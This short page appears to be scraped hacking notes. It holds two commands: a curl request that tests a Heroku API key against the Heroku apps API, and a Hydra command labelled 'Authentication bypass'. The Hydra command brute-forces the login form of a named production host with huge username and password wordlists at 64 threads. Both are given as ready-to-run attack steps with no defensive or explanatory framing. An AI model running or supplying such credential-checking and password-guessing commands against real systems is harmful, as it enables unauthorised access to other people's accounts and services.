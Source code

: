 

Heroku API check 
`curl -X POST https://api.heroku.com/apps -H "Accept: application/vnd.heroku+json; version=3" -H "Authorization: Bearer $HEROKU_API_KEY"`

hydra usage/ Authentication bypass
`sudo hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -P password-biglist.txt -u -f  minimap-fusion.prod.lt.tomtom-global.com  https-post-form "/login:username=^USER^&password=^PASS^:F=Invalid credentials" -V -t 64`